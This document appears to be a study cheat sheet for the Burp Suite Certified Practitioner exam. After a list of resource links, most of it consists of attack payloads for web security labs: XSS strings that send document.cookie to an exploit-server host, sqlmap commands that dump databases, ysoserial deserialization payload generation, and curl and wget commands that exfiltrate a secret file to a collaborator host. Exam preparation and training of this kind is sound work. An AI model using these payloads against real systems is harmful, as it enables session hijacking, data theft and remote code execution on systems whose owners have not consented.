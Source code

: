 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
# More extensions
Quick detection - Scan Manual insertion point https://portswigger.net/bappstore/ca7ee4e746b54514a0ca5059329e926f
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# XSS
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
```html
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0ab600a70433f087809c020301d4004f%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
```

# SQLi
sqlmap -r request --level=5 --risk=3 --batch -p "parameter" -dump <-- takes too long
sqlmap -u "url-here" --cookie="cookies-here" --level=5 --risk=3 --batch -p "parameter" --dump <-- takes too long
sqlmap -u "url-here" --cookie="cookies-here" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/"
sqlmap -u "url-here" --cookie="cookies-here" --batch --dbs --random-agent -p "parameter"

# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
